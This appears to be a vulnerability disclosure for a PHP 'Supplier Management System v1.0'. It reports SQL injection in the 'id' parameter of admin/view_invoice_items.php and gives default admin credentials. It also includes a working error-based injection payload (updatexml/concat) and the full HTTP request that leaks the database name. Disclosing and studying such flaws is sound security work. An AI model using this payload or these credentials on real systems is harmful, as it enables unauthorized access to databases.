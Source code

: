 # Supplier Management System v1.0 has SQL injection

BUG_AUTHOR: Chen haokun

The password for the backend login account is: admin/admin123

vendors: https://www.campcodes.com/projects/php/supplier-management-system-using-php-mysql/

Vulnerability File: /Supply_Management_System/admin/view_invoice_items.php?id=

Vulnerability location: /Supply_Management_System/admin/view_invoice_items.php, id

Current database name: sourcecodester_scm_new

[+] Payload: /Supply_Management_System/admin/view_invoice_items.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)-- // Leak place ---> id

```sql
GET /Supply_Management_System/admin/view_invoice_items.php?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lnrmrcve0bbe6h4i3h1cn01oee
Connection: close
```

![image](https://github.com/user-attachments/assets/252d2588-ebd8-498c-a106-8cd483049991)
